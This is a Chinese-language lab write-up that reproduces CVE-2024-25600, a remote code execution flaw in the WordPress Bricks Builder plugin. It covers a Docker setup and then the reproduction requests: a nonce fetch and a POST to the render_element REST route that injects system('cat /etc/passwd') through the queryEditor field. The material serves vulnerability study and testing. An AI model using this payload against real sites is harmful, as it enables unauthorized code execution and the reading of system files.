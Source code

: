 # CVE-2024-25600 WordPress Bricks Builder RCE

WordPres Bricks Builder 是一个 WordPress 页面构建器插件，旨在帮助用户轻松创建具有吸引力和交互性的网站页面，而无需编写代码。该插件提供了直观的拖放界面和各种预制模块，使用户可以快速构建自定义布局，添加内容和样式，以及实现所需的功能。WordPress配置安装的Brick Builder主题在低于<= 1.9.6版本中存在远程代码执行漏洞。

Bricks Builder官方https://bricksbuilder.io/

Bricks Builder使用手册https://academy.bricksbuilder.io/topic/getting-started/

参考链接：

- https://bricksbuilder.io/release/bricks-1-9-6-1/
- https://www.cve.org/CVERecord?id=CVE-2024-25600
- https://blog.csdn.net/shelter1234567/article/details/136503993

## 漏洞环境

执行如下命令启动一个wordpress-bricks1.9.5-web服务器：

```
docker compose up 
```

服务启动后，可访问`http://your-ip:80/`将自动跳转到wordpress安装向导界面

1，配置与mysql的连接

![image-20240306155641721](./0.1.png)

2，配置站点与管理员账号密码

![image-20240306155807803](./0.2.png)

3，登录后台 安装Bricks1.9.5

![image-20240306160108749](./0.3.png)

出现以下页面，即安装成功

![image-20240306160216610](./0.4.png)

4，点击激活

![image-20240306160402290](./0.5.png)

## 漏洞复现

首先，`/`根路径查看Bricks 返回的nonce值

```
GET / HTTP/1.1
Host: 192.168.116.128
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Connection: close
Accept-Encoding: gzip, deflate, br
```

![image-20240306153933399](./1.png)

得到nonce值之后发送如下请求

```xml-dtd
POST /?rest_route=/bricks/v1/render_element HTTP/1.1
Host: 192.168.116.128
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close
Content-Length: 303
Content-Type: application/json
Accept-Encoding: gzip, deflate, br

{
  "postId": "1",
  "nonce": "2a557d521f",
  "element": {
    "name": "container",
    "settings": {
      "hasLoop": "",
      "query": {
        "useQueryEditor": "",
        "queryEditor": "system('cat /etc/passwd');throw new Exception();",
        "objectType": ""
      }
    }
  }
}
```

![image-20240306154204948](./2.png)

